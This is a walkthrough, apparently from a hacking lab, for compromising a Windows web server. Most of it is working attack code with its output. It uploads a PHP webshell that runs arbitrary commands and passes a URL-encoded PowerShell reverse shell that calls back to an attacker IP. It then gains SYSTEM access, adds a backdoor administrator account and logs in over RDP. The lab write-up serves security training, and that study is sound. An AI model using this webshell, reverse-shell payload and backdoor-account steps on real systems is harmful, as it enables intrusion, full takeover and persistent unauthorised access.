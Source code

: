 #### Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.
1. Create new php file in attacker’s terminal.
```
cat > /root/Desktop/windows-php-reverse-shell.php
```
2. Add text to file.
```
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
* `CTRL+C` to write changes to file.
3. Upload webshell to target host.
* Browse to http://10.10.122.18 from attacker.
* Click ‘Browse’ button.
* Navigate to `/root/Desktop/windows-php-reverse-shell.php`.
* Click ‘Open’ to select the file.
* Click ‘Submit’ to upload the file.
4. Create listener in attack host’s terminal.
```
nc -lvnp 1234
```
5. Verify that webshell GET parameter (`cmd`) is working by passing `ipconfig` command in attacker’s browser.
```
http://10.10.122.18/uploads/windows-php-reverse-shell.php?cmd=ipconfig
```
6. Execute Powershell in attacker’s browser by copying powershell into the URL as the `cmd` argument.
```
http://10.10.122.18/uploads/windows-php-reverse-shell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.108.143%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
* Amend <IP> to the attacker’s IP address and <port> to 1234.
7. Connection from target host received.
```
connection from 10.10.70.179 49827 received!
whoami
nt authority\system
PS C:\xampp\htdocs\uploads> pwd

Path
----
C:\xampp\htdocs\uploads
```
> Webserver is running with SYSTEM privileges. Create a new user and add it to the 'administrators' group, then login over RDP or WinRM.
1. Create a new user in the reverse shell session created in the previous task.
```
net user /add newadmin password
```
2. Add the new user to the Administrators group.
```
net localgroup administrators newadmin /add
```
3. Login over RDP using new user account.
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.70.179 /u:newadmin /p:'password'
```
* RDP connects after acknowledging certificate CN mismatch.
    